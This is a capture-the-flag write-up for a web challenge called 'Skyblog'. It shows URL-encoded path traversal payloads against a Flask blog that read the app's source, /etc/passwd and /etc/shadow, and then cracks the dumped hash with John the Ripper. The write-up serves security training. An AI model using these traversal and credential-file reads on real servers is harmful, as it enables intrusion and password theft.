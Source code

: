 # Skyblog

**Web, 250 points**

> I have an awesome idea ! Yes i do !
> I am launching a new blog platform.
> It is going to be the new Skyblog, better and more profitable than Medium.
> I'm going to be rich !
>
> You can preview the beta over there : http://challenges.urlab.be:16904
>
> *Note: this is a web challenge. You should be able to load a website in a normal browser. If it's not the case, please warn us. (The challenge is unstable due to networking problems)*
>
> **WARNING: do NOT use automated tools like wapiti or nikto**


## Solution

You have a website of a blog. When you click on a blog post, you get an url like this : `http://challenges.urlab.be:16904/post/1%20-%20Hello%20World.md`. You have to try some local file injection by manipulation the url.

A first try could be to try `http://challenges.urlab.be:16904/post/../../../../etc/passwd`. But you have the problem that your browser simplifies the url to `http://challenges.urlab.be:16904/../../../etc/passwd`. You have to urlencode every `/` to `%2F`.

## Optionnal (goto "users passwords")
After some research you try some common file names and find `/post/..%2F/main.py`
You find the source code of the application :

    from flask import Flask
    from flask import render_template
    import glob
    import os
    import markdown

    app = Flask(__name__)

    #### The flag is not here. My guess is that you are looking for a user password :)


    @app.route(&#34;/&#34;)
    def hello():
        posts = [os.path.splitext(os.path.basename((x)))[0] for x in glob.glob(&#34;posts/*.md&#34;)]
        return render_template(&#39;hello.html&#39;, posts=posts)


    @app.route(&#34;/post/&lt;path:title&gt;&#34;)
    def view_post(title):
        with open(os.path.join(&#34;./posts&#34;, title)) as fd:
            raw = fd.read()
            html = markdown.markdown(raw)
            return render_template(&#39;post.html&#39;, post=html, title=title, raw=raw)

    if __name__ == &#34;__main__&#34;:
        app.run(debug=False, host=&#34;0.0.0.0&#34;)

So yes, definitely it's a local file inclusion but the flag is not here :/

## Users passwords

You are looking for a flag/password. You try to get access to the file system root then `/etc/password`.
We can try `http://challenges.urlab.be:16904/post/..%2Fetc%2Fpasswd` but it does not work.

Let's try one directory higher : `http://challenges.urlab.be:16904/post/..%2F..%2Fetc%2Fpasswd`.
It works but does not give any password.

We then try http://challenges.urlab.be:16904/post/..%2F..%2Fetc%2Fshadow`. The website gives us :

    root:*:17185:0:99999:7:::
    daemon:*:17185:0:99999:7:::
    bin:*:17185:0:99999:7:::
    sys:*:17185:0:99999:7:::
    sync:*:17185:0:99999:7:::
    games:*:17185:0:99999:7:::
    man:*:17185:0:99999:7:::
    lp:*:17185:0:99999:7:::
    mail:*:17185:0:99999:7:::
    news:*:17185:0:99999:7:::
    uucp:*:17185:0:99999:7:::
    proxy:*:17185:0:99999:7:::
    www-data:*:17185:0:99999:7:::
    backup:*:17185:0:99999:7:::
    list:*:17185:0:99999:7:::
    irc:*:17185:0:99999:7:::
    gnats:*:17185:0:99999:7:::
    nobody:*:17185:0:99999:7:::
    systemd-timesync:*:17185:0:99999:7:::
    systemd-network:*:17185:0:99999:7:::
    systemd-resolve:*:17185:0:99999:7:::
    systemd-bus-proxy:*:17185:0:99999:7:::
    _apt:*:17185:0:99999:7:::
    flag:$1$AAPF0FVA$lUtYCUZPGuNzJrJ9bAGK10:17215:0:99999:7:::

The `flag:$1$AAPF0FVA$lUtYCUZPGuNzJrJ9bAGK10:17215:0:99999:7:::` looks like the flag !

## Password cracking

But no, it's not the flag ^^

You still have to crack the password hash.
You then crack it with John the ripper and the dictionary we provided.

    john a-file-with-the-hash.txt --wordlist=Project/ctf-challenges/dict.txt
    john a-file-with-the-hash.txt --show

After a few minutes you get back the flag : `pelandosi`
